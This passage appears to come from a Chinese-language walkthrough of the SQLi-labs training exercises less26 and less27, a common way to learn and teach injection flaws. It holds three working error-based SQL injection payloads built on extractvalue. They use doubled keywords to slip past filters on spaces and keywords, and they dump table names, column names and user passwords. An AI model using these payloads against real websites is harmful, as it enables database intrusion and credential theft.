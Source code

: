 

```
?id=1'||(extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(infoORrmation_schema.tables)where(table_schema="security")),0x7e)))||1='--+
```

![image-20220116131832053](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less26-空格过滤.assets/image-20220116131832053.png)



```
?id=1'||(extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(infoORrmation_schema.columns)where((table_schema="security")anandd(table_name="users"))),0x7e)))||1='--+
```

![image-20220116132551414](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less26-空格过滤.assets/image-20220116132551414.png)



```
?id=1'||(extractvalue(1,concat(0x7e,(select(substr(group_concat(username,0x7e,passwOorRd),1))from(users)),0x7e)))||1='--+
```

![image-20220116133551698](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less26-空格过滤.assets/image-20220116133551698.png)







# less27

测试：

![image-20220116134301235](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less27-union-select过滤.assets/image-20220116134301235.png)

单引号闭合



屏蔽了空格、负号、union、select
